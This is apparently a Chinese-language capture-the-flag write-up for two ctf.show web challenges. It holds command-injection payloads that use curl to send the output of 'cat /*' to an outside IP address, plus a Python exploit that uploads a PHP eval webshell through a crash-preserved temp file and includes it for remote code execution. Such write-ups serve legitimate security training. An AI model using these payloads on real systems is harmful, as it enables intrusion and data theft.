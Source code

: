 考点：反弹shell

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url = $_GET['url'];

$schema = substr($url,0,8);

if($schema==="https://"){
    shell_exec("curl $url");
}

```

`shell_exec`无回显，加上`www-data`的权限，不能通过`ls / >/var/www/html/1.php`来写入本地文件

我们只是利用外带数据，`curl外带数据`

```
url=https://;curl http://42.193.170.176:12345/ -F file=`cat /*`
?url=https://;curl http://42.193.170.176:12345/?a=`cat /*`
```

##  web808

考点：文件包含，session文件包含getshell，利用Segfault遗留下临时文件文件进行getshell

**1.利用Segfault遗留下临时文件文件进行getshell：**

条件：php7.1.20以下

原理：就是利用php crash后，会导致上传的临时文件保留下来，然后对其进行文件包含达到RCE的情况

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

```php
<?php
error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    print_r(scandir("/tmp"));
}
```

给出了/tmp下的文件，所有不需要爆破出tmp文件，直接包含

直接给出payload：

```python
import requests
import re
url = "http://6c9ff9d7-497d-4912-942c-0ab8c8d54175.challenge.ctf.show/"
file={
	'file':'<?php eval($_POST[1]);?>'
}
requests.post(url+'?file=php://filter/string.strip_tags/resource=/etc/passwd',files=file)
r=requests.get(url)
#print(r.text)
tmp=re.findall('=> (php.*?)\\n',r.text,re.S)[-1]
print(tmp)
r=requests.get(url+'?file=/tmp/'+tmp)
print(r.text)

```